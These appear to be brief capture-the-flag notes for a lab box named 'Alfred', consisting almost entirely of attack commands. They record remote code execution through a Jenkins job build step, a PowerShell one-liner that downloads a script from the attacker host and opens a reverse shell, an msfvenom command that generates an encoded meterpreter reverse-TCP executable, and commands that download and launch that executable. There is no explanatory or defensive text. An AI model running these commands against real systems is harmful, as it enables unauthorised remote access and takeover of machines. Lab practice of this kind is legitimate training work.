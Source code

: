# Alfred

http://10.10.200.120:8080/job/project/configure give RCE with `powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.2.226:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.2.226 -Port 4444` under build.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.2.226 LPORT=4443 -f exe -o shell.exe`

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.2.226:9999/shell.exe','shell.exe')"`

`Start-Process "shell.exe`